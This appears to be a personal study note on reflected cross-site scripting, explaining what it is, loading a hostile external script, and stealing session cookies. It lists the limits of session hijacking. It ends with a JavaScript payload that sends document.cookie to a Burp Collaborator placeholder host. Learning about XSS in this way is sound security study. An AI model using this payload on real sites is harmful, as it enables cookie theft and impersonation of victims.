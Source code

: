 							DD
# What is Reflected XSS 
- we are going to spell out how to find reflected xss vulnerabilities but  lets first see  what is reflected xss ? 
-  data are taken from the user and put inside the response without sensitization 
- `alert(document.domain);` tells which domain  is in use . 
- we will learn how to execute the  xss vulnerability to prove the concept of finding it , and also its dangerousity . 
- ![[Reflected XSS-20231205094056307.webp]]
- we get to execute the <script src="link for our bad script .js that will destroy our target " ></script>
- we can use it in something like if we have the ability to use xss inside of a message parameter  and then the target is going to find him self running our bad JS script  that will run automatically in his device without him knowing until the disaster happens . 
- lets use the xss to steal the cookies of the  victim .
- we send the victims cookie to our own domain  . and then use them manually to  impersonate the victim . 
- this approach has some significant limitations:
1. the victim might not be logged in  
2. many applications hide their cookies from js using the httponly flag 
3. sessions might be locked to additional factors like the user's IP address 
4. the session might time out before you are able to hijack it . 


# to fetch cookies  we can use : 
```javascript
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```